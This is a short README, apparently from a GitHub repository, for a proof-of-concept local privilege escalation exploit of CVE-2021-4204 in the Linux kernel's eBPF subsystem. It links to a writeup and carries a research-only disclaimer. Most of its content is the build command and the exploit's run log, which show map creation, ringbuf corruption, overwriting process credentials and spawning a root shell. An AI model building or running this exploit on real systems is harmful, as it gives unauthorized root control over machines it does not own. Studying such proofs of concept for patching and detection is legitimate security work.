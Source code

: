 # CVE-2021-4204

Chinese writeup: https://tr3e.ee/posts/cve-2021-4204-linux-kernel-ebpf-lpe.txt

For educational/research purposes only. Use at your own risk.

## Build & Run

```bash
$ sh build_and_run.sh
Build from source...
cc -I include -static -w -o exploit exploit.c
Start exploit! This might take some while...
[*] phase(1/7) 'create bpf map(s)' running
[+] phase(1/7) 'create bpf map(s)' done
[*] phase(2/7) 'corrupt ringbuf' running
Killed
--------------------------------
[*] phase(1/7) 'create bpf map(s)' running
[+] phase(1/7) 'create bpf map(s)' done
[*] phase(2/7) 'corrupt ringbuf' running
[+] phase(2/7) 'corrupt ringbuf' done
[*] phase(3/7) 'spawn processes' running
[+] phase(3/7) 'spawn processes' done
[*] phase(4/7) 'find cred (slow)' running
[+] phase(4/7) 'find cred (slow)' done
[*] phase(5/7) 'overwrite cred' running
[+] phase(5/7) 'overwrite cred' done
[*] phase(6/7) 'spawn root shell' running
[+] Enjoy root!
# id
uid=0(root) gid=0(root) groups=0(root)
# exit
[+] phase(6/7) 'spawn root shell' done
[*] phase(7/7) 'clean up the mess' running
[+] phase(7/7) 'clean up the mess' done
```
